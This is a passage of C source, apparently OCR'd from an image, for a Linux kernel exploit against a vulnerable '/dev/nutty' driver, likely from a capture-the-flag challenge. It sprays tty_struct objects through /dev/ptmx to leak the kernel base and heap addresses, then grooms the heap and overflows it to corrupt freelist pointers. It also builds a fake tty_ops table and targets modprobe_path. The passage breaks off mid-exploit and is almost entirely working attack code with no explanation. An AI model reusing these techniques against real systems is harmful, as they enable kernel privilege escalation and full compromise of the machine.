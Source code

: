 {
    fd = open("/dev/nutty", O_RDONLY);

    if (fd < 0) {
        perror("open");
    }

    int tty_fds[0x2];

    for (int i = 0; i < 0x2; i++) {
        tty_fds[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
    }
    for (int i = 0; i < 0x2; i++) {
        close(tty_fds[i]);
    }

    char buf[0x400];
    uint64_t* p_buf = (uint64_t*)buf;

    create(fd, buf, 0x3ff, 0);
    show(fd, 0, buf);
    delete(fd, 0);

    char poisoned[0x400];
    memcpy(poisoned, buf, sizeof(buf));

    const uint64_t kernel_base = p_buf[3] - TTY_OPS;
    const uint64_t heap_leak = p_buf[7];
    const uint64_t tty_struct = heap_leak - TTY_STRUCT;
    const uint64_t modeprobe_path = kernel_base + MODEPROBE_PATH;
    const uint64_t gadget = kernel_base + GADGET;

    printf("Kernel base: %p \n", kernel_base);
    printf("Heap leak: %p \n", heap_leak);
    printf("Tty struct: %p \n", tty_struct);
    printf("Modeprobe path: %p \n", modeprobe_path);
    printf("Gadget: %p \n", gadget);

    for (int i = 0; i < (0x400-8) / 0x8; i++) {
        p_buf[i] = tty_struct;
    }

    // victim
    tty_fds[0] = open("/dev/ptmx", O_RDWR | O_NOCTTY);

    // shuffle stuff for heap overflow && fd freelist pointer corruption
    for (int i = 0; i < 0xa; i++) {
        create(fd, "AAAAAAAAAAAAAAAA", 0x300, 0x10);
    }

    for (int i = 0; i < 0x8; i++) {
        if (i % 2 == 0) {
            delete(fd, i);
        }
    }

    for (int i = 0; i < 0x8; i++) {
        if (i % 2 != 0) {
            append(fd, i, buf, 0x10000, sizeof(buf));
        }
    }

    for (int i = 0; i < 0x1; i++) {
        create(fd, "AAAAAAAAAAAAAAAA", 0x300, 0x10);
    }

    p_buf = (uint64_t*)poisoned;
    p_buf[0] = 0x100005401;
    // tty struct is about 0x2e0 bytes. Put fake tty_ops somewhere after
    p_buf[3] = tty_struct + (8 * 0x64);
